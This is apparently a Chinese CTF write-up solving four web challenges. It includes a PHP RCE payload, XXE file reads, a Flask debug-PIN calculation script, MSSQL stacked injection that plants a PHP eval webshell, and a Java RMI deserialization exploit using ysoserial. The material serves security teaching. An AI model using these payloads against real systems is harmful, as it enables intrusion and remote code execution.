








## Sigin

**by 安权**

index.php页面源码发现注释 `shell.php`

```php
<?php
    
error_reporting(0);
show_source(__FILE__);
$a = $_GET["a"];
$b = $_GET["b"];
$c = $_GET["c"];
$d = $_GET["d"];
$e = $_GET["e"];
$f = $_GET["f"];
$g = $_GET["g"];

if(preg_match("/Error|ArrayIterator|SplFileObject/i", $a)) {
	die("你今天rce不了一点");
}

if(preg_match("/php/i", $b)) {
	die("别上🐎，想捣蛋啊哥们？");
}

if(preg_match("/Error|ArrayIterator/i", $c)) {
	die("你今天rce不了一点");
}

$class = new $a($b);
$str1 = substr($class->$c(),$d,$e);
$str2 = substr($class->$c(),$f,$g);
$str1($str2);

//flag.php
```

\$str1(\$str2);存在任意代码执行，利用php的内置类Exception的__toString方法来触发任意代码执行

```php
<?php
$class=new Exception("test string");
echo $class‐>__toString();

测试输出：

exception 'Exception' with message 'test string' in
D:\phpstudy_pro\WWW\test.php:2 Stack trace: #0 {main}
```

通过new Exception("xxx");实例化一个Exception类，\$str1和\$str2都变为可控的 

命令执行直接读flag，过滤了php，通配符绕过读出flag  payload：

```
?a=Exception&b=systemcat%20flag.p?p&c=__toString&d=36&e=6&f=42&g=12
```

## fake_login

**by xlccccc**

本题是由于 **ezsql** 和 **minijava** 的解题情况太过惨淡从而赛中临时出的一道简单题，但解题情况也不太好 = =

### xxe

打开题目只有一个登录框，猜出账号密码 `admin/admin` 也没有任何东西



抓包或者看一下js代码可以很容易的发现提交的登录框提交的是xml

至于为什么放 **hint: 这个登录页面的js代码怎么这么奇怪？**

是由于有个人问我  **已经把这题xss了，为什么没有bot被X到？**

懵逼的我问他怎么看出的xss，他说能搜到这题是websocket的xss漏洞，至今我也没想明白一个只有alert回显的登录框怎么被xss的

于是本以为这个xxe很明显的出题人，顶着刚说的**真签到题**给出了这个hint

xxe payload

```xml
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<user><username>&xxe;</username><password>&xxe;</password></user>
```

### flask 算 pin

当你拿到这个只能读文件的xxe，肯定会尝试读一下`/flag` ，读完之后你就能发现它提示你要rce

到这里，可能一部分经验不足的师傅就没有头绪了（不过组会讲过为什么会没有头绪呢？）

而且我相信，当你没有头绪乱读文件时，大概率能看到**flask的开启debug后报错页面**，那你就可以拿着一点google一下



第一个结果就告诉你了办法，**flask算pin**（是不是很容易呢？

根据它的结果你可能读到了正确的值，但是没能进入**console**，于是你开始读更多的文章，或者你能敏感的发现python的版本是3.9，猜到可能和版本有关，又或者你根据这个版本自己搭了一个环境跟着调试了一下等等等

以上办法用不了多久你就会发现，**flask算pin竟然和版本也有关系**

于是你找到了正确的文章，他会告诉你

> 第一个值 读 /etc/passwd 猜 username 你会得到很明显的 minictfer（因为本题由于xml的原因 /proc/self/environ 里的特殊字符会导致报错
>
> 第二个值 flask.app 不变
>
> 第三个值 Flask
>
> 第四个值 根据报错可看到 /usr/local/lib/python3.9/site-packages/flask/app.py
>
> 第五个值 读 /sys/class/net/eth0/address 得到十六进制的 类似`00:15:5d:55:d2:f3` 去掉冒号转为十进制便可得到第五个值
>
> 第六个值 首先访问`/etc/machine-id`，有值就**break**，没值就访问`/proc/sys/kernel/random/boot_id`，然后不管此时有没有值，再访问`/proc/self/cgroup`其中的值拼接到前面的值后面

但由于平台docker环境不同，读`/proc/self/cgroup`你会发现得到的是`0::/`，那就是没有值呗，为什么好多同学会看某个博客说的是因为被过滤了去读其它的文件？

这是 flask 读取该值的逻辑



脚本

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'minictfer'# username  /proc/self/environ /etc/passwd
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892357',# /sys/class/net/eth0/address
    '0e3f1348-aaee-4680-ae33-6b3d626a9c91'
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
            continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

最后建议校内的同学能去调试一下

## ezsql

**by xlccccc**

此题的启发是出题人在玩游戏的时候想要复制某个网站的某url，却发现要充五块钱才能复制100次，于是出题人稍微试了试就发现有个地方存在**mssql注入**，这道题的大部分查询逻辑都是复现当时的真实场景（ ~~除了能getshell~~

本题的查询逻辑是 首先利用给出的id查到该**id**对应的某个**number**，然后用该**number**去得到**name**

不过出题人懒得写了，所以就变成了

```sql
SELECT id FROM dbo.users WHERE id = 1
```

用id查id🤣，不过最终返回的结果是**name**，有没有师傅发现这个奇怪的点呢？

这个地方的目的是，当你第一步查的结果是字符串的时候，用字符串去进行第二步的查询会例如下面这样报错

> Conversion failed when converting the nvarchar value 'ctf' to data type int.

在转换字符串时出错，这样也是为了给你看回显，否则是看不到回显的。

对于**空白字符过滤的绕过**，视频hint已经给的很清楚了，希望校内师傅能用好搜索引擎，很容易找到的东西不至于卡这么久

第二步就是想想如何getshell，题面已经写的很清楚了（但还是有很多师傅问我为什么库内找不到flag...）

当然，能列任意目录，查任意文件也是可以的

这道题的本质就是一道信息题，很多信息都很容易得到，解这么少还是很意外的



第一个结果就能看到最终预期的getshell方式，当然，这是作为出题人的我一眼发现的，而作为做题人，去试试每种方法也很容易做出这道题

对于绕过过滤，各位师傅其实最后的payload大差不差，这里给出一种最直接的办法

```sql
alter database ctf set RECOVERY FULL 
1;declare%01@s%01varchar(2000)%01set%01@s=0x616c7465722064617461626173652063746620736574205245434f564552592046554c4c20%01exec(@s)

create table cmd (a image)
1;declare%01@s%01varchar(2000)%01set%01@s=0x637265617465207461626c6520636d6420286120696d61676529%01exec(@s)

backup log ctf to disk = '/var/www/html' with init
1;declare%01@s%01varchar(2000)%01set%01@s=0x6261636b7570206c6f672063746620746f206469736b203d20272f7661722f7777772f68746d6c2f312e62616b27207769746820696e6974%01exec(@s)

insert into cmd (a) values (0x3c3f706870206576616c28245f504f53545b315d293b3f3e) #密码为1的一句话
1;declare%01@s%01varchar(2000)%01set%01@s=0x696e7365727420696e746f20636d64202861292076616c7565732028307833633366373036383730323036353736363136633238323435663530346635333534356233313564323933623366336529%01exec(@s)

backup log ctf to disk = '/var/www/html/shell.php'
1;declare%01@s%01varchar(2000)%01set%01@s=0x6261636b7570206c6f672063746620746f206469736b203d20272f7661722f7777772f68746d6c2f7368656c6c2e70687027%01exec(@s)
```

这部分也是通过搜索得来的，毕竟是你不了解的数据库，最容易的办法自然是通过搜索引擎

## minijava

**by xlccccc**

**最最最最基础的java题**

如果你是一位Java安全大佬，拿到题目附件后

反编译，发现有反序列化入口，同时发现包内有 **commons-collections-3.2.1** 可以反序列化rce

然后你又发现这里对反序列化的类做了白名单过滤



很显然，直接反序列化是无法rce的，接着你去看User的`readObject`



发现此处连接了一个rmi，而这个**registry1**又是你可以控制的，那么你的思路就很明显了，构造一个恶意的**Server**，然后打**RMI反序列化漏洞**，最终可以实现绕过白名单任意反序列化，从而打CC链来rce

```java
package ctf.minil.java.minil;

import ctf.minil.java.minil.bean.User;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class POC {
    public static void main(String[] args) throws Exception {
        User user = new User("L_team", 18);
        Registry registry = LocateRegistry.getRegistry("ip", 1099);
        setFieldValue("registry", registry, user);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(user);
        byte[] bytes1 = byteArrayOutputStream.toByteArray();
        String encode = java.util.Base64.getEncoder().encodeToString(bytes1);
        System.out.println(encode);
    }

    public static void setFieldValue(String name, Object value, Object obj) throws Exception{
        Field f = obj.getClass().getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, value);
    }

    // put in User
    private void writeObject(ObjectOutputStream out) throws Exception {
        out.writeInt(114514);
        out.writeByte(2);
        out.defaultWriteObject();
    }
}
```

写一个简单的poc绕过if判断然后vps上执行

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "calc.exe"
```

就能rce了

当然，本次比赛面对的更多是没学过java的同学，所以才会有**最最最最基础的java题**（~~而不是**来吧展示**~~

所以你在做这道题的时候，就不要想着能一个下午或者一个晚上做出这道题，对于完全不了解java安全的你，更应该尝试了解一下在ctf中java题是怎么样的（对于不了解java基本语法的，那就需要学更多了

你会在看到源码的发现反序列化点的时候，尝试搜索 **ctf java反序列化**

在你看了足够多的文章之后，你能了解到CC链这个可以直接rce的包，你也在本题的环境中发现了这个包

然后你这个时候应该去**花很多时间**研究一下**CC链**的原理，最好可以跟着调试一下，这时候你就得到了一个可以通过反序列化rce的payload

当然，你打了之后会发现并不能打通

你再次看了源码之后发现源码中反序列化的类和你调试的时候用的不一样



你看这个文件之后加上一定是搜索很容易就能知道这是一个白名单

于是你会看向User类，因为前面的调试你已经有了不少经验，你知道反序列化的入口是`readObject`，你发现这个地方重写了`readObject`，这里也只有可能是唯一出现漏洞给你rce的地方了

你首先会尝试绕过`readObject`中的几个判断，简单写了一个poc之后，你发过去它却报错了，你的POC部分很可能是以下这样



这时候你该寻找一下你代码的问题（~~而不是将poc甩给出题人问为什么反序列化不成功~~

在进行了对jar包的调试已经报错后，你甚至发现它都没有进入`User.readObject`

当你去掉`writeInt`和`writeByte`后，它竟然能进入了！

所以很明显就是这里出了问题，你可能通过搜索或者由前面得到的经验感觉到，由于序列化流的问题，User是在`readObject`时进行读取的，那么你首先是进入`readObject`，然后才是`writeInt`和`writeByte`，所以你会想到，你需要重写User的`writeObject`方法，然后再次反序列化

```java
    private void writeObject(ObjectOutputStream out) throws Exception {
        out.writeInt(114514);
        out.writeByte(1);
        out.defaultWriteObject();
    }
```

你就成功了

接下来就是这行奇怪的代码

```java
Hello hello = (Hello)registry1.lookup("hello");
hello.world(this);
```

你再次利用搜索引擎得到相关信息，用不了多久，你会得到一个关键词 **RMI反序列化**

然后你细读**RMI反序列化**的文章就能找到**Server估计Client**的例子，当你仔细的学完这部分之后，你便能拿到flag了（不要每个文章都点点，几分钟扫完然后告诉我我已经把能想到的都用了，细读才是最重要的

poc已贴在上面